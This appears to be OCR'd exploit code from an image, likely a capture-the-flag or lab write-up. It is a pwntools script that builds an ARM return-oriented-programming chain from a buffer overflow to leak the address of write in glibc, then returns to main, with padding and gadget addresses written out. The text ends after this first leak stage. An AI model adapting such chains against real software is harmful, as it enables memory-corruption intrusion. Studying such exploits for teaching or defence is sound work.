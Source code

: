 _# 0x0001049e \&lt;+50\&gt;: ldmia.w sp!, {r3, r4, r5, r6, r7, r8, r9, pc}_

_junk = b&#39;A&#39;\*104_

_gadget1 = 0x0001049e + 1 # one is added to convert in thumb mode_

_gadget2 = 0x00010492 + 1_

_write\_plt = 0x0001035c # write@plt taken from main_

_write\_got = e.got[&#39;write&#39;] # write@got_

_main = 0x10434 + 1 # starting address of main_

_# first rop chain to leak write@GLIBC_

_payload1 = junk_

_payload1 += p32(gadget1)_

_payload1 += p32(write\_plt)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x1)_

_payload1 += p32(write\_got)_

_payload1 += p32(0x4)_

_payload1 += p32(gadget2)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(0x0)_

_payload1 += p32(main)_

_p.recvuntil(&quot;pwn me\n&quot;)_

_p.sendline(payload1)_

_file = open(&quot;payload1.bin&quot;, &quot;wb&quot;) # For debugging purposes_

_file.write(payload1)_

_file.close()_

_leaked\_write = u32(p.recv().strip()[-10:-6])_

_log.success(&#39;Leaked write@GLIBC: &#39; + hex(leaked\_write))_
